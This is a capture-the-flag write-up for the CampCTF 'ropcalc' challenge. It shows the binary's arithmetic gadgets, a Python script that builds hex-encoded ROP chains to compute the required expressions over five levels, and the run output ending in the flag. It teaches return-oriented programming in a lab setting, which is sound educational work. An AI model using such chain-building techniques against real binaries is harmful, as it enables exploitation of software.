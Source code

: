 ### Solved by barrebas

How could I resist a challenge called ropcalc? We're given the python server and a binary. We're supposed to write a ROP chain to satisfy certain conditions. The server.py will then pass random values for the registers to the binary, along with the ROP chain we provide. After execution of the ROP chain, it will check if the ROP chain has calculated the right answer. Pretty nifty, if you ask me!

The binary itself is actually packed with everything we need:

```
0000000000400b40 <sub_rax_rbx>:
  400b40:   sub    rax,rbx
  400b43:   ret    
  400b44:   data32 data32 nop WORD PTR cs:[rax+rax*1+0x0]

0000000000400b50 <imul_rax_rbx>:
  400b50:   imul   rax,rbx
  400b54:   ret    
  400b55:   data32 nop WORD PTR cs:[rax+rax*1+0x0]

0000000000400b60 <xchg_rax_rbx>:
  400b60:   xchg   rbx,rax
  400b62:   ret    
  400b63:   data32 data32 data32 nop WORD PTR cs:[rax+rax*1+0x0]
```

The expressions we need to satisfy look like this: `$rax + $rbx + 1337 (store result in rax)`

I'll just give the final exploit as it's not that difficult:

```python
#!/usr/bin/python
import struct, time
from socket import *

def q(x):
    return struct.pack("<Q", x)

def readtil(delim):
  buf = b''
  while not delim in buf:
      buf += s.recv(1)
  return buf

def toHex(x):
    payload = ""
    for i in x:
        payload += '%02x' % ord(i)
    return payload

  
def pwn():
    global s
    s = socket(AF_INET, SOCK_STREAM)
    s.connect(('challs.campctf.ccc.ac', 10109))
    
    readtil('line:')
    rop1 = ""
    rop1 += q(0x00400b30)
    rop1 += q(0x004046ab) # ret
    s.send(toHex(rop1)+'\n')
    
    print readtil('line:')
    
    rop2 = ""
    rop2 += q(0x400900) # pop_rcx
    rop2 += q(1337)
    rop2 += q(0x400b80) # add rax, rcx
    rop2 += q(0x400b30) # add rax, rbx
    rop2 += q(0x4046ab) # ret
    
    s.send(toHex(rop2)+'\n')
    
    print readtil('line:')
    
    rop3 = ""
    rop3 += q(0x400b50)
    rop3 += q(0x4046ab)
    
    s.send(toHex(rop3)+'\n')
    
    print readtil('line:')
    
    rop4 = ""
    rop4 += q(0x400900) # pop_rcx
    rop4 += q(31337)
    rop4 += q(0x400f90) 
    rop4 += q(0x400b50)
    rop4 += q(0x4046ab)
    
    s.send(toHex(rop4)+'\n')
    
    # $rcx + 23 * $rax + $rbx - 42 * ($rcx - 5 * $rdx - $rdi * $rsi) - $r8 + 2015
    rop5 = ""
    rop5 += q(0x400a20) # pop r10
    rop5 += q(23)
    rop5 += q(0x400d80) # imul rax, r10
    rop5 += q(0x400b80) # add rax, rcx
    rop5 += q(0x400b30) # add rax, rbx
    rop5 += q(0x400cd0) # sub rax, r8
    rop5 += q(0x400a20) # pop r10
    rop5 += q(2015)
    rop5 += q(0x400d60) # add rax, r10
    rop5 += q(0x4020e0) # imul rdi, rsi
    rop5 += q(0x4009c0) # pop r8
    rop5 += q(5)
    rop5 += q(0x401910) # imul rdx, r8
    rop5 += q(0x4018a0) # add rdx, rdi
    rop5 += q(0x401400) # sub rcx, rdx
    rop5 += q(0x4009c0) # pop r8
    rop5 += q(42)
    rop5 += q(0x401500) # imul rcx, r8
    rop5 += q(0x400b90) # sub rax, rcx
    rop5 += q(0x4046ab)
    
    s.send(toHex(rop5)+'\n')
    
    import telnetlib
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
pwn()
```

And in action:


```
bas@tritonal:~/bin/ccc/ropc$ python poc3.py 
 Correct!
--------------------------------------------------------------------------------
Level [2/5]
Create a ROP chain that calculates: $rax + $rbx + 1337 (store result in rax)
Enter your solution as a single hex encoded line:
 Correct!
--------------------------------------------------------------------------------
Level [3/5]
Create a ROP chain that calculates: $rax * $rbx (store result in rax)
Enter your solution as a single hex encoded line:
 Correct!
--------------------------------------------------------------------------------
Level [4/5]
Create a ROP chain that calculates: $rax * (31337 + $rbx) (store result in rax)
Enter your solution as a single hex encoded line:
 Correct!
--------------------------------------------------------------------------------
Level [5/5]
Create a ROP chain that calculates: $rcx + 23 * $rax + $rbx - 42 * ($rcx - 5 * $rdx - $rdi * $rsi) - $r8 + 2015 (store result in rax)
Enter your solution as a single hex encoded line: Correct!
--------------------------------------------------------------------------------
The flag is: CAMP15_c0342e0be22dc032de05aa637c8ee8a3

*** Connection closed by remote host ***
```

